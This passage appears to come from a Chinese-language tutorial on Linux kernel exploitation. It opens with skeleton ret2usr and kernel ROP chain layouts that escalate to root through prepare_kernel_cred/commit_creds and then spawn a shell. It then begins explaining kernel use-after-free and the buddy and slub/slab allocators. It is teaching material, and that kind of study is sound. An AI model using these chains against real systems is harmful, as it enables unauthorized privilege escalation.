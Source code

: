 ```c
//ret2usr
canary;
(size_t)get_root; //	usr code
swapgs;popfq;ret;
0;
iretq;
(size_t)get_shell; //usr code
user_cs;
user_eflags;
user_sp;
user_ss;


//kernel ROP
pop_rdi;	
0;
prepare_kernel_cred; //kernel addr
pop_rdx;
pop_rcx;
mov_rdi_rax_call_rdx; // notice that call instruction will push a ret addr in the stack
commit_creds; //kernel addr
swapgs;
0;
iret;
(size_t)get_shell; // usr code
user_cs;
user_eflags;
user_sp;
user_ss;
```

### kernel UAF

不管是用户态程序还是内核态程序，动态内存都是一个必不可少的功能组件，虽然实现的具体形式不一样，但是最终的目的都是提供一个可以方便分配内存的接口，分配和回收内存资源。

在内核中，这套管理机制由两个算法结合实现，即伙伴系统+slub/slab。

#### 题外话--内存管理的批发零售

笔者在学习内核动态内存管理机制前曾学习过glibc和windows的堆管理机制，不难发现只要是动态内存管理，整体的思路都是批发零售的思路，在glibc中，批发的工作交给mmap，windows中交给nt后端堆，而在linux内核中则是伙伴系统；零售的工作在glibc中交给了各种bins和tcache，windows则是LFH或者快表，内核中则是slub/slab算法。所以说在学习的时候有个对照可以更方便的理解算法的机制和原理。

#### 伙伴系统

伙伴系统相信有大学计算机基础的同学应该都有所了解，主要思想就是将两两相邻的一样大小的内存块称之为伙伴。为了方便内存管理，每一对伙伴的第一个伙伴都是2的倍数的下标。比如，0、1为一对，2、3为一对，1和2就不是一对了，因为方便之后的内存回收。伙伴系统只会分配2的幂次方大小的内存块，也就是说，如果申请一个大小为6的内存，系统会返回一个大小为8的块。整体思路就是将原本大小的最大大小的块一次次的二分，每次二分都会出现一对伙伴。具体的算法细节可以参考这个链接：

https://blog.csdn.net/u011306659/article/details/81281964

#### slub/slab
